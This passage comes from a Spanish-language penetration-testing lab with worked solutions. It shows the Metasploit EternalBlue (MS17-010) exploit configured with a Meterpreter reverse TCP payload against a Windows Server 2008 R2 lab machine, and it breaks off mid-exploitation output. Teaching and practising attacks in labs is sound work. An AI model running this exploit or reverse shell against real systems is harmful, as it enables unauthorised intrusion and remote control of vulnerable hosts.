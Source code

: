 ```bash
                                              2008 R2, Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.0.2.9         yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


View the full module info with the info, or info -d command.
```

- Usamos el payload `windows/x64/meterpreter/reverse_tcp` para implementar una conexión TCP reversa desde el target hacia la máquina atacante.
- El RHOSTS es la máquina target `10.0.2.15`.
- El LHOST es la máquina atacante `10.0.2.9`.
- El LPORT es el puerto local en la máquina atacante que estará abierto a la escucha de la solicitud de conexión TCP reversa originada en el target.

### 2.4. Ejecución del Exploit (2 puntos)

- Ejecuta el exploit para obtener una **conexión Meterpreter** con el servidor. Si la explotación es exitosa, documenta qué mensaje o salida te confirma que la conexión ha sido establecida.

- **Tip**: Al ejecutar el exploit, Metasploit intentará establecer una sesión Meterpreter en la máquina víctima si el ataque es exitoso.

- **Tip adicional**: Documenta cualquier mensaje en la salida de Metasploit que indique éxito, como `Meterpreter session X` opened. Esto confirma la conexión.

<hr style="border: none; height: 10px; background-color: #003b00;" />

## <font color="#87CEEB">Solución</font>

<hr style="border: none; height: 10px; background-color: #003b00;" />


```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit

[*] Started reverse TCP handler on 10.0.2.9:4444 
[*] 10.0.2.15:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.0.2.15:445         - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (64-bit)
[*] 10.0.2.15:445         - Scanned 1 of 1 hosts (100% complete)
[+] 10.0.2.15:445 - The target is vulnerable.
[*] 10.0.2.15:445 - Connecting to target for exploitation.
[+] 10.0.2.15:445 - Connection established for exploitation.
[+] 10.0.2.15:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.0.2.15:445 - CORE raw buffer dump (51 bytes)
[*] 10.0.2.15:445 - 0x00000000  57 69 6e 64 6f 77 73 20 53 65 72 76 65 72 20 32  Windows Server 2
[*] 10.0.2.15:445 - 0x00000010  30 30 38 20 52 32 20 53 74 61 6e 64 61 72 64 20  008 R2 Standard 
[*] 10.0.2.15:445 - 0x00000020  37 36 30 31 20 53 65 72 76 69 63 65 20 50 61 63  7601 Service Pac
[*] 10.0.2.15:445 - 0x00000030  6b 20 31                                         k 1             
[+] 10.0.2.15:445 - Target arch selected valid for arch indicated by DCE/RPC reply
```